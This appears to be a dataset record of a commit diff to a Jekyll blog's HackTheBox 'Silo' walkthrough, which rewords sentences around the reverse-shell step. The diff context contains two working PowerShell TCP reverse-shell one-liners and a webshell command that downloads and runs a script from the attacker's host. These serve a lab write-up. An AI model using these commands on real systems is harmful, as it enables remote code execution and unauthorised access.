

Before and after one commit to 1n4r1/1n4r1.github.io, a Jekyll site: the page built from _posts/2019-11-06-Hackthebox-Silo-Walkthrough.md, in a window 1280 px wide and 1400 px high, scrolled down 5083 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; a style sheet for code colours, icons or effects is not loaded.

Commit message:
modify silo-walkthrough

```diff
--- a/_posts/2019-11-06-Hackthebox-Silo-Walkthrough.md
+++ b/_posts/2019-11-06-Hackthebox-Silo-Walkthrough.md
@@ -168,10 +168,9 @@ listening on [any] 443 ...
 
 {% endhighlight %}
 
-For the reverse shell, we can use <a href="https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1">this Powershell script</a>.<br>
+After that, make a script for the reverse shell, we can use <a href="https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1">this Powershell script</a>.<br>
 {% highlight shell %}
-#A simple and small reverse shell. Options and help removed to save space.
-#Uncomment and change the hardcoded IP address and port number in the below line. Remove all help comments as well.
+root@kali:~# cat Invoke-PowerShellTcpOneLine.ps1
 $client = New-Object System.Net.Sockets.TCPClient('10.10.14.13',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
 
 $sm=(New-Object Net.Sockets.TCPClient('10.10.14.13',443)).GetStream();[byte[]]$bt=0..65535|%{0};while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));$sm.Write($st,0,$st.Length)}
@@ -187,7 +186,7 @@ Serving HTTP on 0.0.0.0 port 80 ...
 
 {% endhighlight %}
 
-To use it, we have to run following command with the webshell.
+Then invoke the powershell script, we have to run following command with the webshell.
 {% highlight shell %}
 powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.13/Invoke-PowerShellTcpOneLine.ps1')
 {% endhighlight %}
```
